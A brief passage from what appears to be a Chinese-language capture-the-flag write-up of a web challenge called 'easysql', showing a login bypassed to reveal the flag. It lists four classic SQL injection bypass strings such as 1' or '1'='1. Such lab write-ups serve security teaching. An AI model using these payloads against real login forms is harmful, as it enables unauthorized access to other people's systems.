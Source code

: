 输入万能公式1' or '1'='1试出

```bash
# 万能公式
1 and 1=1
1' and '1'='1
1 or 1=1 
1' or '1'='1
```

![web-easysql-login-right](img/web-easysql-login-right.png)

![web-easysql-login-flag](img/web-easysql-login-flag.png)
